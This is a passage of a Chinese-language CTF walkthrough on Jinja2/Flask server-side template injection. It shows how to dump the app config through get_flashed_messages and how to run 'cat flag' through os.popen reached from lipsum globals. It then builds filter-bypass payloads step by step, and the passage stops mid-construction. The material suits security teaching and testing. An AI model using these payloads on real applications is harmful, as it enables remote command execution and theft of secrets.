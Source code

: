 2.  **通过 `get_flashed_messages`:**

    ```jinja
    {{ get_flashed_messages.__globals__['current_app'].config }}
    ```
![set config = None 1](./images/ssti14.png)

-----

## Level 11 - 复杂过滤组合 ([‘'‘, ‘“‘, ‘+’, ‘request’, ‘.’, ‘[‘, ‘]’])

当过滤了单引号、双引号、加号、`request`、点号、中括号等多种字符时，需要组合多种技巧，例如：

  * 使用 `set` 定义变量存储中间结果或构造的字符串。
  * 使用 `attr()` 过滤器替代点号 `.` 和中括号 `[]` 进行属性访问。
  * 通过 `dict(key=a)|join` 的方式构造字符串 "key"。
  * 通过 `(object|string|list)|attr('pop')(index)` 的方式获取字符串中的特定字符（如获取下划线）。
  * 拼接字符来构造所需的属性名和命令。

**构造步骤示例:**

1.  **确定基础 Payload (如果不过滤):**
    ```jinja
    {{ lipsum | attr("__globals__") | attr("__getitem__")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```
2.  **构造 'pop' 字符串:**
    ```jinja
    {% set pop = dict(pop=a) | join %} {# pop = 'pop' #}
    ```
3.  **提取下划线 `_`:** 假设 `lipsum` 转字符串后第 18 个字符是 `_` (需要测试确定)。
    ```jinja
    {% set xiahuaxian = (lipsum | string | list) | attr(pop)(18) %} {# xiahuaxian = '_' #}
    ```
4.  **构造 `__globals__` 和 `__getitem__`:**
    ```jinja
    {% set globals = (xiahuaxian, xiahuaxian, dict(globals=a)|join, xiahuaxian, xiahuaxian) | join %} {# globals = '__globals__' #}
    {% set getitem = (xiahuaxian, xiahuaxian, dict(getitem=a)|join, xiahuaxian, xiahuaxian) | join %} {# getitem = '__getitem__' #}
    ```
5.  **构造命令所需字符串:**
    ```jinja
    {% set space = (lipsum | string | list) | attr(pop)(9) %} {# 获取空格，索引 9 需要测试 #}
    {% set os = dict(os=a) | join %} {# os = 'os' #}
    {% set popen = dict(popen=a) | join %} {# popen = 'popen' #}
    {% set cat = dict(cat=a) | join %} {# cat = 'cat' #}
    {% set flag = dict(flag=a) | join %} {# flag = 'flag' #}